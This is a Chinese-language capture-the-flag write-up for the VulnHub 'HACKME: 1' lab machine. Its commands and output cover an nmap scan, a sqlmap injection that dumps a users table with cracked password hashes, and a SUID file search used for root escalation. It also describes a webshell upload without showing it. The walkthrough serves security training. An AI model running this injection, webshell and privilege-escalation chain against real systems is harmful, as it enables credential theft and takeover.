







# HACKME: 1

> https://download.vulnhub.com/hackme/hackme.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 02:43 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:E1:C2:D8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds

```

访问80端口



注册一个测试账号进行登录



输入框存在SQL注入漏洞

```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Referer: http://192.168.32.209/welcome.php
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search  -D webapphacking -T users --dump

Database: webapphacking                                                                                                                                                                                                                     
Table: users
[7 entries]
+----+--------------+------------+------------------+---------------------------------------------+
| id | name         | user       | address          | pasword                                     |
+----+--------------+------------+------------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles   | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington       | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous        | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress      | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin       | 2386acb2cf356944177746fc92523983            |
| 12 | test1        | test1      | test1            | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | sectest      | sectest    | sectest@test.com | e10adc3949ba59abbe56e057f20f883e (123456)   |
+----+--------------+------------+------------------+---------------------------------------------+

```



使用superadmin用户登录，发现有上传页面。



尝试上传webshell



访问`/uploads`目录就可以看到已经上传成功。



查找suid文件

```
www-data@hackme:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/core/13425/bin/mount
/snap/core/13425/bin/ping
/snap/core/13425/bin/ping6
/snap/core/13425/bin/su
/snap/core/13425/bin/umount
/snap/core/13425/usr/bin/chfn
/snap/core/13425/usr/bin/chsh
/snap/core/13425/usr/bin/gpasswd
/snap/core/13425/usr/bin/newgrp
/snap/core/13425/usr/bin/passwd
/snap/core/13425/usr/bin/sudo
/snap/core/13425/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/13425/usr/lib/openssh/ssh-keysign
/snap/core/13425/usr/lib/snapd/snap-confine
/snap/core/13425/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/sudo
/home/legacy/touchmenot
/bin/mount
/bin/umount
/bin/ping
/bin/ntfs-3g
/bin/su
/bin/fusermount

```

直接提权成功。


